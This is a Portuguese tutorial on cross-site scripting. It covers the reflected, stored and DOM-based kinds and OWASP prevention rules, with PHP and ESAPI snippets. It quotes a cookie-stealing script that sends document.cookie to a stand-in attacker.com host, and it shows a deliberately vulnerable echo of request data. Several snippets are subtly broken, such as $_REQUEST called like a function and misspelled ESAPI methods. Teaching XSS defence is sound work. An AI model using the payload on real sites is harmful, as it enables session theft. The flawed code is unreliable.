

A XSS ocorre quando a aplicação inclui dados fornecidos pelo atacante numa página enviada para o navegador sem que 
alguma validação ou filtragem tenha sido feita. Pode ser, também, considerado como inserção HTML. O atacante utiliza-se
 da linguagem do lado do cliente (client-side) como o Java Script, por ser uma poderosa ferramenta de scripting, mas 
qualquer linguagem de script suportada pelo navegador da vítima é um alvo potencial para este ataque inclusive 
interpretadores como, por exemplo, Flash, SilverLight, ActiveX, VBScript e até mesmo "comportamentos não padrão" do 
navegador podem introduzir vetores de ataques sutis, dificultando, dessa forma, a detecção da vulnerabilidade.

> Essa modalidade de ataque ocorre quando uma aplicação web aceita dados do usuário sem nenhum tipo de tratamento. 
> Assim, um possível atacante pode injetar um código JavaScript, SQL, ActiveX ou outro, para comprometer a segurança da
> aplicação coletando dados ou burlando métodos de validação a áreas restritas. (SICA; REAL, 2007, p. 62)

Há três tipos de ataques XSS: refletido (Reflected), armazenado (persistido, Stored) e baseado no DOM (DOM Injection).
O refletido caracteriza-se por receber os dados não seguros de um usuário e retorná-los diretamente para o browser. 
O XSS armazenado é quando os dados não seguros são armazenados em algum meio para que posteriormente seja recuperado. 
O baseado no DOM atua manipulando ou criando código client-side na página. O ataque pode utilizar apenas uma técnica ou
uma combinação das três.

Comumente, argumenta-se que o XSS é refletido de qualquer forma, mas essa afirmação nos ajuda apenas na ilustração da
vulnerabilidade: entendendo o XSS refletido entende-se os dois últimos, porém cada tipo de XSS reserva consequências
e particularidades próprias como, por exemplo, no caso do XSS armazenado o prejuízo pode ser aumentado pelo simples
fato de que o ataque se repetirá automaticamente toda vez que a informação armazenada fora recuperada e exibida no browser.

O processo ocorre da seguinte forma; de um lado temos uma página que enviará dados não confiáveis para o script php do 
lado do servidor, essa página poderá conter desde um único link como até um formulário web. Esse script, por sua vez, 
recebe os dados sem validá-los nem filtrá-los e renderiza uma nova página (no caso do XSS refletido) novamente sem 
validar ou filtrar os dados. 

Importante frisar que o Javascript permite o uso do protocolo XmlHttpRequest que por sua vez permite o uso da 
tecnologia AJAX. O uso do XmlHttpRequest permite, em alguns casos, contornar a política do navegador conhecida como 
"same source origination" encaminhado os dados da vítima para sites hostis e criando worms complexos e zumbis maliciosos.

Segundo o projeto OWASP Top 10 (2010) a classificação do risco é enquadrado da seguinte forma: o Impacto técnico desta 
vulnerabilidade é moderada podendo o atacante executar scripts no navegador da vítima para sequestrar dados de sessão, 
alterar a página de forma perniciosa, inserir conteúdo hostil, redirecionar o utilizador e até sequestrar o navegador 
com o uso de malware e zumbis. 

Para detectar as vulnerabilidades na aplicação deve-se fazer uso de ferramentas estáticas e dinâmicas Os teste 
automatizados são capazes de detectar os XSS de reflexão, mas frequentemente falham na detecção do XSS persistente. Já 
na detecção do XSS baseado no DOM nenhuma ferramenta foi capaz de obter êxito. Uma detecção completa requer um combinação
de revisão manual do código e teste de penetração manual. A tabela abaixo sintetiza a classificação do risco.



Todo script que envia para o navegador dados não confiáveis serve de exemplo para este tipo de ataque. Uma única linha 
de código pode ser responsável pela vulnerabilidade, vejamos este pequeno exemplo:

```php
<?php
echo $_REQUEST("dado_nao_confiavel");
?>
```


Importante notar que apesar do ataque ser efetuado em uma linguagem client-side, o problema continua sendo da linguagem 
server-side, pois é ela quem faz o trabalho de receber e posteriormente enviar os dados ao navegador.

O ataque XSS se concretiza quando a aplicação não trata os dados quando estes são enviados do navegador para o servidor
 (no sentido cliente  servidor) e novamente quando os dados não tratados partem do servidor para o navegador (sentido 
servidor cliente).

Um exemplo mais concreto seria o mencionado no projeto OWASP Top 10 (2010). O atacante envia um trecho de código escrito
 em JavaScript que retorna o cookie do navegador através da função "document.cookie" e redireciona essa informação 
utilizando-se da função "document.location" para o site do atacante denominado www.attacker.com . Neste site, um script
escrito em cgi denominado "cookie.cgi" se encarregará de receber e armazenar o cookie roubado. Neste ataque, o atacante
 está preocupado com o ID de sessão de navegação da vítima, com posse dessa informação o atacante poderá criar 
requisições para o site verdadeiro como um usuário real. Os códigos abaixo ilustram este ataque:

```php
<?php
$creditcard = $_REQUEST("creditcard");
$page += "<input name='creditcard' type='text'  value='creditcard' >";
echo $page;
```

O HTML resultante será como o abaixo.

```html
'><script>
    document.location='http/www.attacker.com/cgi-bin/cookie.cgi?'%20+document.cookie
</script>
```

Segundo Williams e Manico (2011) existem 8 regras (numeradas de 0 a 7) para evitar este tipo de vulnerabilidade: 

- Regra 0(zero) - Nunca insira dados não confiáveis, exceto em locais permitidos, 
- Regra 1 - Codificar código HTML antes de inserir dados não confiáveis em conteúdo de elementos HTML, 
- Regra2 - Codificar atributos antes de inserir dados não confiáveis em atributos HTML comuns, 
- Regra3 - Codificar código Javascript antes de inserir dados não confiáveis em valores HTML de Javascript, 
- Regra4 - Codificar CSS antes de inserir dados não confiáveis em valores de propriedades de estilos de HTML, 
- Regra5 - Codificar URL antes de inserir dados não confiáveis em parâmetros de URL, 
- Regra6 – Utilizar API para limpar e validar qualquer tipo de saída e 
- Regra7 – Evitar XSS baseado em DOM.

A __regra de numeração zero__ (Nunca insira dados não confiáveis, exceto em locais permitidos) nos diz para não colocarmos 
nenhum tipo de dados em nosso HTML principalmente se estiverem entre tag's `<script>`, entre comentários HTML, como um 
atributo de uma tag `<div>` e quando o sistema escreve o nome da tag. 

*Não criar código JavaScript dinamicamente:*

    <script>...NÂO COLOCAR DADOS INSEGUROS AQUI...</script>

*Não criar comentários HTML dinamicamente:*

    <!--...NÂO COLOCAR DADOS INSEGUROS AQUI...-->

*Não criar atributos de tag HTML dinamicamente:*

    <div ...NÂO COLOCAR DADOS INSEGUROS AQUI...=test />

*Não criar tag HTML dinamicamente:*

    <...NÂO COLOCAR DADOS INSEGUROS AQUI... href="/test" />


Esta regra diz ainda, que a única exceção para colocarmos dados não seguros estão definidas nas regras de numeração 1 e
5 que será abordada mais adiante. Diz também para evitar contextos aninhados (nested contexts) como um URL dentro de
um JavaScript pois as regras para esse contexto são demasiadas complicadas. Ainda como recomendação, esta regra diz 
que a aplicação não deve aceitar um código real de Javascript de uma fonte não confiável e depois executá-lo.

A __regra de numeração 1__ (codificar código HTML antes de inserir dados não confiáveis em conteúdo de elementos HTML) diz 
que quando é incluso dados não confiáveis diretamente em algum lugar no corpo do HTML considerando as tags normais como 
`div`, `p`, `b`, `d` e etc... então é preciso codificar os seis seguintes caracteres: 

*  ` & `(ê comercial), 
*  ` '' ` (aspas duplas), 
*  ` ' `(aspas simples), 
*  ` < ` (sinal de menor), 
*  ` > `(sinal de maior) e
*   ` \ ` (barra invertida). 

Este sinais podem (devem) ser trocados pelos indicados na tabela abaixo.

<table>
    <tr>
        <th>Caracter</th><th>Deve ser subistituído por...</th>
    </tr>
    <tr>
        <td><code>&amp;</code></td><td><code>&amp;amp;</code></td>
    </tr>
    <tr>
        <td><code>&lt;</code></td><td><code>&amp;lt;</code></td>
    </tr>
    <tr>
        <td><code>&gt;</code></td><td><code>&amp;gt;</code></td>
    </tr>
    <tr>
        <td><code>&quot;</code></td><td><code>&amp;quot;</code></td>
    </tr>
    <tr>
        <td><code>&#x27;</code></td><td>Use <code>&amp#x27;</code> porque <code>&amp;apos;</code> não é recomendado</td>
    </tr>
    <tr>
        <td><code>&#x2F;</code></td><td><code>&amp#x2F;</code></td>
    </tr>
</table>


É possível ainda fazer uso da ESAPI com módulo "HTML entity escaping and unescaping" conforme ilustrado no código abaixo.

```php
<?php
$dado_inseguro = request.getParameter( "input" );
$dado_seguro = $ESAPI->encoder->encodeForHTML($dado_inseguro);
```


A __regra de numeração 2__ diz que é preciso codificar os caracteres quando é incluso dados não confiáveis em valores 
de atributos típicos como largura, nome, valor e etc... A regra salienta que não devem receber o mesmo tratamento os 
atributo considerados complexos como `href`, `src`, estilos e qualquer um dos tratadores de eventos como `mouseover`, 
`onclick`  e etc...para esses atributos é preciso considerar a regra de numeração 3. A regra 2 é ilustrada pelo trecho de 
código abaixo e pode ser compreendida da seguinte forma: 

*Não colocar dados não confiáveis em atributos de tag's HTML estejam eles dentro de aspas duplas, simples ou mesmo sem aspas:*

    <div attr=...NÂO COLOCAR DADOS INSEGUROS AQUI...->content</div>
    <div attr='...NÂO COLOCAR DADOS INSEGUROS AQUI...-'>content</div>
    <div attr="...NÂO COLOCAR DADOS INSEGUROS AQUI..."->content</div>

É possível ainda fazer uso da ESAPI com módulo "HTML entity escaping and unescaping" conforme demonstrado no código abaixo.
Repare que o método chamado difere do método chamado na utilização da ESAPI para a Regra 1.

```php
<?php
$dado_inseguro = request.getParameter( "input" );
$dado_seguro = $ESAPI->encoder->encodeForHTMLAttribute($dado_inseguro);
```

Esta regra ainda salienta que é preferível utilizar os atributos com as aspas duplas do que com sem as aspas uma vez 
que atributos sem aspas podem ser facilmente quebrados por caracteres como...

-  ` ` (espaço), 
-  `%` (porcentagem), 
-  `*` (asterisco),
-  `+` (sinal de soma), 
-  `-` (sinal de subtração), 
-  `;` (ponto e vírgula), 
-  `<` (sinal de menor), 
-  `=` (sinal de igualdade), 
-  `>` (sinal de maior), 
-  `^` (circunflexo) e
-  `|` (barra reta).


A __regra de numeração 3__ trata os dados que são inseridos como parâmetros em funções JavaScript. Toda função que 
utilize parâmetros, atribuição à variáveis e principalmente tratadores de eventos devem ter os dados tratados.  A regra
3 é ilustrada pelo trecho de código HTML abaixo.

    <script>alert('...NÂO COLOCAR DADOS INSEGUROS AQUI...')</script>
    <script>x='...NÂO COLOCAR DADOS INSEGUROS AQUI...'</script>
    <div onmouseover="x='...NÂO COLOCAR DADOS INSEGUROS AQUI...'"</div>    

É possível fazer uso da ESAPI com módulo "HTML entity escaping and unescaping" conforme demonstrado no código abaixo.

```php
<?php
$dado_inseguro = request.getParameter( "input" );
$dado_seguro   = $ESAPI->encoder->encodeForHTMJavaScript($dado_inseguro);
```

A __regra de numeração 4__ (codificar CSS antes de inserir dados não confiáveis em valores de propriedades de estilos 
de HTML) diz respeito à situação em que o sistema precisa colocar dados não confiáveis em um estilos CSS. O Importante 
é que o sistema use dados não confiáveis somente em um valor de propriedade CSS e não em outros lugares de estilo. A 
regra recomenda que estilos não devem ser colocados em propriedades complexas como URL e comportamentos. O trecho de 
código HTML abaixo ilustrada os locais que não devem ser colocados dados não confiáveis:

    <style>selector { property : ...NÂO COLOCAR DADOS INSEGUROS AQUI...; } </style>
    <style>selector { property : "...NÂO COLOCAR DADOS INSEGUROS AQUI..."; } </style>
    <span style="property : ...NÂO COLOCAR DADOS INSEGUROS AQUI...">text</style>

É possível fazer uso da ESAPI com módulo "HTML entity escaping and unescaping" conforme demonstrado no código abaixo.

```php
<?php
$dado_inseguro = request.getParameter( "input" );
$dado_seguro   = $ESAPI->encoder->encodeForCSS($dado_inseguro);
```


A __regra de numeração 5__ (codificar URL antes de inserir dados não confiáveis em parâmetros de URL) diz respeito à 
situação em que o sistema precisa incluir âncoras em uma página que será enviada para o navegador os dados devem ser 
tratados apropriadamente. O código abaixo demonstra o local que deve ser considerado na aplicação codificando-se todos 
os dados não confiáveis:

    <a href="http://www.somesite.com?test=...NÂO COLOCAR DADOS INSEGUROS AQUI...">link</a >

Para esta regra poderá ser feito o uso da ESAPI com módulo "HTML entity escaping and unescaping" conforme demonstrado 
pelo código abaixo.

```php
<?php
$dado_inseguro = request.getParameter( "input" );
$dado_seguro   = $ESAPI->encoder->encodeForUrl($dado_inseguro);
```

A regra ainda recomenda que para ser completo o tratamento da URL deve passar por uma validação antes conforme demostrado
abaixo.

```php
<?php
$userURL    = $_REQUEST("userURL");
$isValidURL = $ESAPI->validator->isValidInput("URLContext", userURL, "URL", 255, false);
if ($isValidURL) {
     $userURL = $ESAPI->encoder->encodeForHTMLAttribute($userURL);
     echo "<a href=\"codeFor($userURL)\">link</a>";
}
```

A __regra de numeração 6__ diz respeito da API AntiSamy, um projeto da OWASP que tem como finalidade garantir que o 
HTML/CSS fornecido pelo usuário está em conformidade com o sistema web. Esta API foi escrita inicialmente na linguagem 
Java e, por essa razão, não será abordado o seu uso.


A __regra de numeração 7__ trata do XSS baseado no DOM. A principal diferença entre o XSS baseado no DOM e os outros 
dois modos (refletido e armazenado) é que o XSS refletido e armazenado é um problema que deve ser tratado do lado do 
servidor enquanto o XSS baseado no DOM é um problema que deve ser tratado no lado do cliente. Porém, todo o código é 
gerado no servidor, por tanto é de responsabilidade dos desenvolvedores da aplicação web tornar o código seguro contra 
ataques XSS em geral.


Para a devida prevenção de XSS baseado no DOM é preciso utilizar a ESAPI, porém não existe nenhum método específico 
contra XSS baseado em DOM. É preciso usar uma combinação dos métodos "encoders" fornecida pela API. A questão é saber 
qual método utilizar, pois cada subcontexto necessita de seu método de prevenção. Por subcontexto é compreendido que um
ataque de XSS baseado no DOM utiliza-se de código JavaScript concomitante uma tecnologia ou particularidade desta 
tecnologia, por exemplo, é possível fazer um ataque que utiliza-se de código JavaScript e código HTML, no caso 
utilizaremos, na ordem, o método `encoderHTML()` da ESAPI para codificar o possível código malicioso escrito em HTML e, 
em seguida, utilizamos o método `encoderForJs()` da ESAPI conforme demonstrado no código abaixo. (MANICO et al., 2010)

```php
<?php
$dado_seguro = $ESAPI->encoder->encodeForJs(  $ESAPI->encoder->encodeHTML($dado_inseguro)  );
```

Se o subcontexto for, por exemplo, CSS então é preciso utilizar-se do método `encodeForCSS()`.

 Da mesma forma, se o 
subcontexto for um atributo de URL, será preciso então utilizar-se do método `encodeForURL()`. Se o subcontexto for um 
atributo de uma tag HTML será preciso então utilizar-se do método `encodeForHTMLattr()`. Os exemplos são ilustrados no 
código abaixo.

```php
<?php
$dado_seguro = $ESAPI->encoder->encodeForJs(  $ESAPI->encoder->encodeForHTMLattr($dado_inseguro)  );
$dado_seguro = $ESAPI->encoder->encodeForJs(  $ESAPI->encoder->encodeForCSS($dado_inseguro)  );
$dado_seguro = $ESAPI->encoder->encodeForJs(  $ESAPI->encoder->encodeForURL($dado_inseguro)  );
```